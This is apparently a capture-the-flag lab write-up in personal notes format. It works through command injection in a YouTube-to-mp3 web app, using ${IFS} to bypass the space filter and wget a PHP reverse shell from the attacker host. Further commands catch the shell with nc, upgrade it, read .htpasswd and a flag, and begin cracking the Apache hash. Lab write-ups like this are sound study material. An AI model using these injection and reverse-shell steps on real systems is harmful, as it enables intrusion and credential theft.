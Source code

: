 ```
{"status":1,"errors":"WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this.\nERROR: Incomplete YouTube ID test. URL https:\/\/www.youtube.com\/watch?v=test looks truncated.\n","url_orginal":"https:\/\/www.youtube.com\/watch?v=test","output":"","result_url":"\/tmp\/downloads\/67198b96f40e5.mp3"}
```
- telling us where mp3 files are saved, `/tmp/downloads/`
- After attempting to inject my reverse shell here, it kept getting restricted.
- Eventually, I did get a tip from community
	- they mentioned `{IFS}` this can be used to bypass restrictions if used instead of spaces. #IFS - Internal field separator, change " " for any other character
	- Lets move my `phprevsh.php` to the webserver with #SimpleHTTPServer on LHOST and #wget in `yt_url`
```
 yt_url=`wget${IFS}http://10.2.1.119/phprevsh.php`
```
- #nc listener up
```
rlwrap nc -lnvp 443
```
- and navigate to `http://10.10.97.70/phprevsh.php` from the browser
```
┌──(root㉿kali)-[~/Transfer]
└─# rlwrap nc -lnvp 443         
listening on [any] 443 ...
connect to [10.2.1.119] from (UNKNOWN) [10.10.97.70] 48368
Linux dmv 4.15.0-96-generic #97-Ubuntu SMP Wed Apr 1 03:25:46 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 01:35:25 up  4:24,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
- We caught a shell as `www-data`!
- Now to pivot/escalate

---
# Foothold

- gain shell via exploit
- Stablize shell
	- `python3 -c 'import pty;pty.spawn("/bin/bash")'`  
## Pivot to user
- enumerate!
- Poking around we find we can read the `.htpasswd` file and the first flag
```
www-data@dmv:/var/www/html/admin$ cat .htpasswd
cat .htpasswd
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```
- User flag - admin
```
www-data@dmv:/var/www/html/admin$ cat flag.txt
cat flag.txt
flag{0d8486a0c0c42503bb60ac77f4046ed7}
```
- The hash for `itsmeadmin` is `$apr1$` a quick search tells me it is Apache and is `-m 1600` for hashcat
- Let's crack it, first saved the hash password to a file called `hash` then use #hashcat 
```
┌──(root㉿kali)-[~]
```